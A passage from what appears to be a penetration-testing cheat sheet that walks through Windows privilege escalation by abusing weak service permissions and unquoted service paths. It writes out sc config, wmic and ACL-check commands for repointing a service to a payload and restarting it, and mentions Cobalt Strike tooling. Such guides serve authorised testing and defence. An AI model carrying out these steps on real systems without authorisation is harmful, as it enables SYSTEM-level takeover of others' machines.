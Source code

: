 
### __Abuse vulnerable software & service permissions:__
##### _Weak service \(binary\) permissions exploitation:_
Weak service \(binary\) permissions can result in modifying service configurations by changing the “binPath” variable or directly overwriting the service binary\. If the targeted binary is running with high privileges and can be restarten or auto starts after termination, it is possible to leverage this type of vulnerabilities to obtain system level access\.
>If using Cobalt Strike, all the ‘sc’ command can be run as BOF \([CS\-Situational\-Awareness\-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF) | [CS\-Remote\-OPs\-BOF](https://github.com/trustedsec/CS-Remote-OPs-BOF)\)
- 1\. Enumerate for vulnerable service permissions \(use the already discribed ‘SharpUp’ tool for this\)\.
- 2\. Check if the service runs as system and uses "auto\_start" as start type: ```sc qc <service name>```
- 3\. Verify if for: 
	- weak service permission, you have the correct permissions \([Get\-ServiceAcl](https://gist.github.com/cube0x0/1cdef7a90473443f72f28df085241175)\): ```Get-ServiceAcl -Name <name vuln service> | select -expandpropery Access``` 
	- weak service binary permission, it is possible to replace the binary: ```Get-Acl -Path "C:\<path to vuln binary>"" | fl```
- 4\. Create a "Windows Service EXE binary" from the “Payload Development” section \(is it mandatory to execute a payload that is able to run a command in a new process because the orginial service process will crash after execution\)\. 
- 5\. Upload everything that is needed for the exploitation \-like the created binary\- to the target system\. 
- 6\. Take the staps needed so the binary will be executed:
	- Weak service binary permission: Replace the original binary \(move and give it a new name\) with the custum binary \(this most likely requires you to first stop the binary\)\. 
	- Weak service permission: 
		- 1\. modify the service config so it points to your payload \(note the original 'BINARY\_PATH\_NAME' so it can later be restored\): ```sc config "<name vulnerable service>" binPath= "C:\<path to payload.exe>"```
		- 2\. If not already, change “SERVICE\_START\_NAME” attribute to localsystem: ```sc config "<name vulnerable service>" obj= "LocalSystem"```
		- 3\. If not already, change “START\_TYPE” attribute to AUTO\_START: ```sc config "<name vulnerable service>" start=auto```
- 7\. Restart the vulnereable service:
	- If the user has anough privileges:
		- 1: ```sc stop <vuln-service>```
		- 2: ```sc start <vuln-service>```
	- Restart system if the vulnerable service has auto restart and the user has the “SeShutdownPrivilege”: ```shutdown /r```

##### _Unquoted service path exploitation:_
Unquoted service path exploits the way the system is searching and running a specific binary\. If the targeted binary is running with high privileges and can be restarten or auto starts after termination, it is possible to leverage this  vulnerabilities to obtain system level access\. 
- 1\. Enumerate for unquoted service paths:
	- List all services and check manually: ```wmic service get name, pathname```
	- Filter on missing quotes: ```wmic service get name, pathname, displayname, startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """```
- 2\. Check if the service runs as system and uses "auto\_start" as start type: ```sc qc <service name>```
- 3\. Verify if for unquoted service path, it is possible to write to one of the directories containing spaces \(the '\(\)' are mandatory\): ```(Get-Acl C:\<path to dir>).access```
- 4\. Create a “Windows Service EXE binary” from the “Payload Development” section \(is it mandatory to execute a payload that is able to run a command in a new process because the orginial service process will crash after execution\)\. 
- 5\. Upload everything that is needed for the exploitation \-like the created binary\- to the target system